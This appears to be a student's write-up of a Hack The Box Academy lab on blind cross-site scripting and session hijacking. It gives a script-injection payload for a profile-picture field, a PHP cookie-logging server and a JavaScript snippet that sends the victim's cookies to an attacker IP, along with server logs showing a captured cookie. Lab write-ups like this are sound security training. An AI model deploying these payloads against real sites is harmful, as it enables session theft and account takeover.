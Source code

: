    

![](https://academy.hackthebox.com/storage/modules/103/xss_blind_hijacked_session.jpg)


# Question
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250130174323.png)

Let's go to the `/hijacking` page:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250130175150.png)

Let's fill in some random data and use this payload at the Profile Picture URL:

```js
"><script src=http://IP></script>
```

With this, we've checked that the website is indeed vulnerable to XSS, we can do the following:


Now, we can create a php server and a `script.js` file to be run remotely:

```php
<?php  
if (isset($_GET['c'])) {  
$list = explode(";", $_GET['c']);  
foreach ($list as $key => $value) {  
$cookie = urldecode($value);  
$file = fopen("cookies.txt", "a+");  
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");  
fclose($file);  
}  
}  
?>
```

```js
document.location='http://10.10.15.141/index.php?c='+document.cookie;  
new Image().src='http://10.10.15.141/index.php?c='+document.cookie;
```

Run the server and register again using this payload:

```js
"><script src=http://IP/script.js></script>
```

We will see the following output in our server:

```
[Thu Jan 30 22:56:13 2025] PHP 8.3.15 Development Server (http://0.0.0.0:80) started
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37580 Accepted
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37580 [200]: GET /script.js
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37580 Closing
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37582 Accepted
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37582 [200]: GET /index.php?c=cookie=c00k1355h0u1d8353cu23d
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37582 Closing
```
